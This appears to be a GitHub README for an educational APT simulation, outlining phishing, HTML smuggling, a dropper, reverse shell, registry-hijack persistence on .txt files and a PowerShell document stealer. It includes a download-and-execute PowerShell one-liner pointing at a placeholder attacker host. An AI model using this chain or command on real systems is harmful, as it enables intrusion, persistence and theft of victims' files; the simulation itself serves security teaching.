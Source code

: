 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job description document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** and persist.ps1 file from the attacker's server.
- The dropper.exe manipulates the **registry value** at `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command` to execute `persist.ps1`.
- When the user opens any **.txt file**, the manipulated registry value triggers `persist.ps1`, which establishes a **reverse shell** connection to the attacker's server.

### **4. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** (`docs-stealer.ps1`) searches for sensitive files such as **.txt, .pdf, .xlsx, .csv**, and other document types.
- Once the attacker gains a **reverse shell** on the target system, they execute the following command to download and run the document stealer:

  ```powershell
  powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/docs-stealer.ps1')"
  ```

- The script scans for potential sensitive documents and uploads them to a **remote PHP web server** controlled by the attacker.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: dropper delivery.
- **Phishing Document (DOCX)**: Social engineering bait.
